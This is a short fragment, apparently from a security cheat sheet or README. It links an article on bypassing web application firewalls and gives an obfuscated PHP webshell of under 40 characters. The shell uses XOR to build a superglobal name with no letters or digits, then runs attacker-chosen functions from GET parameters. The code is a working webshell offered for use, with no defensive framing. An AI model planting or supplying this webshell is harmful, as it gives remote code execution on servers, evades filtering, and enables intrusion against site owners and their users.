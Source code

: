 [PHP Shell without number and letter](https://securityonline.info/bypass-waf-php-webshell-without-numbers-letters/)
Advanced shell < 40 chars: 
```
<?=$_="`{{{"^"?<>/";${$_}[_](${$_}[__]);
```
